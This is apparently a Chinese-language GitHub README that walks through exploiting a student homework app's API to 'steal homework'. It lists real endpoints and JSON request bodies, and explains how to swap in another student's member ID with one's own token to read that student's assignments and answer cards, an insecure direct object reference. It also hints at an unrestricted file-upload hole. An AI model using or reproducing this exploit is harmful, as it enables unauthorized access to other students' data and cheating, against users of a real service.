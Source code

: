 # 凡高的抓包及逆向分析
### 我们通过逆向可以知道啥
我们不妨可以通过逆向可以看看凡高这个 *** 写了什么屌代码
##### 因为这里存在高危漏洞，不方便放出来，有技术的哥们自己悟吧！（你们的渗透与我无关，我并未提供任何技术细节及暗示）

 我们通过逆向项目小程序代码发现其中作业提交有巨大的安全隐患，对于图片的格式认证只做了前端认证，理论是只要绕过前端就可以实现任意文件上传，恰恰这个 *** 做了前后端分离，这就直接导致我们可以通过调取api的方式获取到上传权限。。。
（这个东西涉及渗透，所以我教不了，大家自己研究研究吧）

### 我们通过抓包可以知道啥
我们都知道，其中有一个功能很神奇叫做==互相判作业==,这个玩意就是我们突破的关键，why？因为这个东西很神奇，因为我根本不知道我会批改谁的作业，所以这里的权限管理十分混乱，所以就导致我登录凭证是A，但我可以访问B的作业。这便是我们偷作业的基本实现逻辑。

因为主播也怕给自己找麻烦，所以只提供部分的指导，我相信有志之士将会根据我的部分代码及逻辑开发出相应的应用程序的。

好了废话不多说直接开始

#### api库
##### 1.用户信息

| 请求方式 | 请求url                                                 |
| ---- | ----------------------------------------------------- |
| post | https://api.fangao.100eks.com/member.miniprogram.auth |

这个需要wxcode的唯一认证，所以我们获取token的方式只有抓包。（不会抓包的放弃吧）

##### 2.作业列表

| 请求方式 | 请求url                                                |
| ---- | ---------------------------------------------------- |
| post | https://api.homework.100eks.com/member.homework.list |

这个就需要我们手动改包和发包了
不妨给您看看包的结构
```
{
"request" : {
	"mid":88888888,
	"subject_id":1,
	"page":1,
	"pageSize":10}
}
```
很好，这就是发包的内容，我们需要做什么？
只需要把你想偷人的 ```mid``` 换上去即可，这时候有聪明的小伙伴问了：主播主播，你的技术确实很强，但我怎么知道别人的的mid呢？（其实在你mid的基础上改个十位的数字就好了）。
> 还有重要的不要忘记请求头加上你的token

好了，这样我们就可以收到想下面这样的data
```
{ 
	"code": 0, 
	"msg": "请求成功", 
	"time": 000000000, 
	"data": [ { 
		"chid": 000000, 
		"hid": 0000, 
		"subject_name": "语文", 
		"subject_id": 1, 
		"username": "name", 
		"mid": 00000000, 
		"homework_title": "语文寒假作业", 
		"start_date": "2025-00-00 00:00:00", 
		"end_date": "2025-00-00 00:00:00", 
		"status": 0, 
		"type": "homework", 
		"homework_type": 1 }, 
		// 其他类似的作业条目... 
	] }
```
大家可以通过识别上面的username，来检查是否成功。
我们需要上面的一些信息让我们完成后面的部分

#### 3.作业页

| 请求方式 | 请求url                                                        |
| ---- | ------------------------------------------------------------ |
| post | https://api.homework.100eks.com/member.homework.success.card |

发包内容
```
{
"request" : {
	"mid":88888888,
	"hid":"0000"
	}
}
```
修改方式同上
这样简单的偷作业就完成了。

